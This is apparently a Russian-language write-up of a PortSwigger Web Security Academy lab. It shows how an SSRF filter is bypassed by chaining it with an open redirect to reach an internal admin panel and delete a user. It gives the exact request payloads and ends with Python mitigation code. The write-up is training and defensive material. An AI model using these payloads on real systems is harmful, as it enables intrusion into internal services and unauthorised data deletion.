




# Lab: SSRF with filter bypass via open redirection vulnerability

**Платформа:** PortSwigger Web Security Academy  
**Категория:** SSRF  
**Сложность:** Practitioner  
**Дата:** 2025-07-17  

---

## TL;DR
Фильтр SSRF разрешает запросы только на локальное приложение.
Обойдено через Open Redirect уязвимость в параметре `path` —
фильтр видит локальный URL, сервер следует за редиректом
на внутренний адрес `http://192.168.0.12:8080/admin`.
Удалён пользователь `carlos`.

---
## Описание уязвимостей

### Уязвимость 1 — SSRF в параметре stockApi

Параметр `stockApi` передаёт URL на который сервер делает запрос.
Фильтр разрешает только локальные пути того же приложения.

### Уязвимость 2 — Open Redirect в /product/nextProduct

Навигация между товарами использует параметр `path`:

```http
GET /product/nextProduct?path=/product?productId=2
→ 302 Location: /product?productId=2
```

Значение `path` попадает напрямую в заголовок `Location`
без валидации. Можно передать любой URL — включая внешний:

```http
GET /product/nextProduct?path=http://192.168.0.12:8080/admin
→ 302 Location: http://192.168.0.12:8080/admin
```

### Связка двух уязвимостей

```
Фильтр SSRF проверяет начальный URL — видит локальный путь → пропускает
Сервер делает запрос на /product/nextProduct?path=http://192.168.0.12:8080/admin
Приложение отвечает: 302 Location: http://192.168.0.12:8080/admin
HTTP клиент сервера автоматически следует редиректу
Сервер попадает на внутренний адрес — фильтр уже не проверяет
```

---

## Разведка

### Шаг 1 — Проверка прямого запроса

Перехватила запрос Check stock, отправила в Repeater.
Попробовала указать внутренний адрес напрямую:

```
stockApi=http://192.168.0.12:8080/admin  →  заблокировано
```

Фильтр видит чужой хост — блокирует.



### Шаг 2 — Обнаружение Open Redirect

Нажала кнопку **Next product** на странице товара,
перехватила запрос:

```http
GET /product/nextProduct?path=/product?productId=2 HTTP/2
Host: LAB-ID.web-security-academy.net

→ HTTP/2 302
   Location: /product?productId=2
```

Параметр `path` попадает прямо в `Location` — Open Redirect.
Проверила с внешним URL:

```http
GET /product/nextProduct?path=http://192.168.0.12:8080/admin

→ HTTP/2 302
   Location: http://192.168.0.12:8080/admin
```

Редирект на произвольный адрес подтверждён.



---

## Эксплуатация

### Шаг 3 — Связка SSRF + Open Redirect

Собрала payload который обходит фильтр через Open Redirect:

```
stockApi=/product/nextProduct?path=http://192.168.0.12:8080/admin
```

Цепочка выполнения:
```
1. Фильтр видит /product/nextProduct — локальный путь → пропускает
2. Сервер делает запрос на /product/nextProduct?path=http://192.168.0.12:8080/admin
3. Приложение отвечает: 302 Location: http://192.168.0.12:8080/admin
4. HTTP клиент следует за редиректом автоматически
5. Сервер получает HTML внутренней админ-панели
6. Возвращает его в ответе
```

В ответе вернулся HTML страницы администратора.



### Шаг 4 — Удаление пользователя carlos

В HTML ответа нашла ссылку на удаление `carlos`.
Изменила path на финальный запрос:

```
stockApi=/product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos
```

Сервер прошёл всю цепочку редиректов и выполнил удаление.



---

## Почему сервер следует за редиректом

Большинство HTTP клиентов (curl, Python requests, Java HttpClient)
**автоматически следуют редиректам** 301/302/303/307/308 по умолчанию.
Разработчики редко отключают это поведение — и именно это
позволяет атаке работать.

---

## Итог

Фильтр SSRF который проверяет только **начальный URL** уязвим
если приложение содержит Open Redirect. Комбинация двух
по отдельности не критичных уязвимостей даёт полный обход защиты.

---

## Защита

```python
import requests
from urllib.parse import urlparse
import ipaddress
import socket

ALLOWED_HOSTS = ['stock.weliketoshop.net']

def is_safe_url(url: str) -> bool:
    parsed = urlparse(url)
    try:
        ip = ipaddress.ip_address(
            socket.gethostbyname(parsed.hostname)
        )
        if ip.is_private or ip.is_loopback:
            return False
    except Exception:
        return False
    if parsed.hostname not in ALLOWED_HOSTS:
        return False
    return True

def safe_request(url: str):
    if not is_safe_url(url):
        raise ValueError("URL not allowed")

    # allow_redirects=False — не следовать редиректам автоматически
    response = requests.get(url, allow_redirects=False)

    # Если редирект — проверяем конечный адрес тоже
    if response.is_redirect:
        redirect_url = response.headers.get('Location')
        if not is_safe_url(redirect_url):
            raise ValueError("Redirect target not allowed")
        response = requests.get(redirect_url, allow_redirects=False)

    return response
```

Дополнительно:
- Отключить автоматическое следование редиректам в HTTP клиенте
- Проверять **конечный адрес** после каждого редиректа —
  а не только начальный URL
- Закрыть Open Redirect — не подставлять пользовательский ввод
  напрямую в заголовок `Location` без валидации
- Использовать allowlist доменов для параметра `path`